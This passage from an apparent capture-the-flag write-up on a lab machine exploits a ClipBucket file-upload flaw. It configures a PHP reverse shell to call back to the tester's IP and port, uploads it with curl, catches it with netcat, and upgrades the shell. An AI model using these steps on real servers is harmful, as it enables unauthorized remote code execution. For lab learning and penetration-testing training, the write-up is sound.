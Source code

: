 With no way to `sign up` and our `LFI` only able to read files, we'll need a vulnerability for this site.  Checking the pages source code we find `ClipBucket version 4.0`. Searching [exploit-db](https://www.exploit-db.com/) we find `ClipBucket < 4.0.0 - Release 4902 - Command Injection / File Upload / SQL Injection`.

### Setup

We require a reverse shell to upload and since this is PHP server, so we'll copy `/usr/share/seclists/Web-Shells/laudanum-0.8/php/php-reverse-shell.php` to out current working directory as `rev.php` and edit the variables to match our `IP` and the `port` we want to use.

```php
---snip---
set_time_limit (0);
$VERSION = "1.0";
$ip = '10.8.208.76';  // CHANGE THIS LOCAL IP TO CONNECT BACK TO
$port = 4242;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
---snip---
```

We'll run `netcat` to catch our reverse shell and then run the exploit using `curl`.

```bash
curl -F "file=@rev.php" -F "plupload=1" -F "name=rev.php" http://broadcast.vulnnet.thm/actions/photo_uploader.php -u developers:[REDACTED]
{"success":"yes","file_name":"1622174479d86fa0","extension":"php","file_directory":"2022\/02\/28"}
```

```bash
nc -lvnp 4242
```

Once we see the file is uploaded we can navigate to `http://broadcast.vulnnet.thm/files/photos/2022/02/28/1622174479d86fa0.php` and load the file.  If everything was successful we'll have a shell waiting.


```bash
whoami
www-data
```

## [0x05] Privilege Escalation

For quality of life work we'll need a stable shell.

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm-256color
{CTRL+Z}
stty raw -echo;fg
{ENTER}
```
>{CTRL+Z} and {ENTER} are pressed keyboard keys
{: .prompt-info }
